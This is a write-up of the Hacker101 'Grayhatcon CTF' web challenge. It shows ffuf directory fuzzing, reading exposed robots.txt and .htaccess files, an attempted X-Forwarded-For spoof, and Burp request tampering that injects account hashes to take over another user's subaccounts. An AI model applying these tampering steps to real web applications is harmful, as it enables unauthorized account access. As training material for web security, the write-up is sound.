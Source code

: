 # Grayhatcon CTF

## Description
This write up will show how to solve the CTF for "Grayhatcon CTF"

**Difficulty:** Moderate

Hint 1: The registration form might have fields you missed!

## Solution 1st flag
Task opens when going to page: Someone's listed all the usernames and passwords for HackerOne on HackerBay! Hack your way in and delete the listing before someone buys them!</br>

When opening the web applications and go through the source code, I don't immediately see something of interest.</br>
As part of recon, I start to fuzz for files:</br>
`ffuf -u https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/FUZZ -w ~/Documents/bug_bounty/lists/files/common.txt`</br>

With this I found the following files:</br>
```
.htpasswd               [Status: 403, Size: 315, Words: 20, Lines: 10]
.htaccess               [Status: 403, Size: 315, Words: 20, Lines: 10]
.hta                    [Status: 403, Size: 315, Words: 20, Lines: 10]
assets                  [Status: 301, Size: 389, Words: 20, Lines: 10]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1]
favicon.ico             [Status: 200, Size: 5426, Words: 10, Lines: 4]
login                   [Status: 200, Size: 1726, Words: 430, Lines: 36]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1]
register                [Status: 200, Size: 1665, Words: 357, Lines: 33]
robots.txt              [Status: 200, Size: 38, Words: 3, Lines: 3]
robots                  [Status: 200, Size: 38, Words: 3, Lines: 3]
server-status           [Status: 403, Size: 315, Words: 20, Lines: 10]
```

When visiting `https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/robots.txt` I get the following:</br>
```
User-agent: *
Disallow: s3cr3t-4dm1n/
```
That means there should be a hidden folder.</br>
When visiting `https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n` it returns a 403 Forbidden error.</br>

Now fuzz for files in `s3cr3t-4dm1n` with: `ffuf -u https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/FUZZ -w ~/Documents/bug_bounty/lists/files/common.txt`</br>
In this folder there is also an .htaccess which is a configuration file for an Apache webserver.</br>
Read the data in the .htaccess file in the s3cr3t-4dm1n folder: `curl https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/.htaccess`:</br>
```
Order Deny,Allow
Deny from all
Allow from 8.8.8.8
Allow from 8.8.4.4
```
This means the s3cr3t-4dm1n folder can only be accessed from these IP's. Make the same request, but include in the X-Forwarded-For in the request:</br>
`curl https://d89187ac2f21751866dea3520cb35f2f.ctf.hacker101.com/s3cr3t-4dm1n/ -H "X-Forwarded-For: 8.8.8.8"`

This should give the flag, but it doesn't. It still gives a response 403 Forbidden.</br>

## Solution 2nd flag
When resetting the password it only requires the username.</br>
When checking the source code, there is a hidden field for account_hash.</br>
Reset the password for user `hunter2` and the account_hash will be: `cf505baebbaf25a0a4c63eb93331eb36`

It is possible to create a normal user or a subuser. The only difference is, that the subuser has a owner_hash.</br>
In Burp, turn on Intercept and give a username and password for the new user.</br>
Click on Register and in Burp add `account_hash=cf505baebbaf25a0a4c63eb93331eb36&` before new_username and send the request.</br>
This will create a new user under hunter2. Clicking a few times on forward.</br>
Now log in with the new user credentials and it will show the flag.</br>

## Solution 3rd flag
Create another subuser, like was done for the 2nd flag.</br>
Before clicking Create SubUser, turn Intercept on.</br>
In the intercepted request, change the following:</br>
Change userhash to `cf505baebbaf25a0a4c63eb93331eb36` (hunter2's hash)</br>
Add `hash=49d87a754332a258ebf94c03a110eca4&` at the beginning of the parameters (change the hash of hunter2's subuser you want to enable)</br>
Add at the end `&enable_toggle=enable`</br>
It should look like this: `hash=49d87a754332a258ebf94c03a110eca4&owner_hash=3e113376e84e5f0c626b7627be902c0e&new_username=testuser6&new_password=password&enable_toggle=enable`</br>
Click Forward and change the userhash to `cf505baebbaf25a0a4c63eb93331eb36` (hunter2's hash)</br>
Click Forward again.</br>
Now login with the respective subuser, where it will show the flag.</br>

## Solution 4th flag
The challenge is broken.






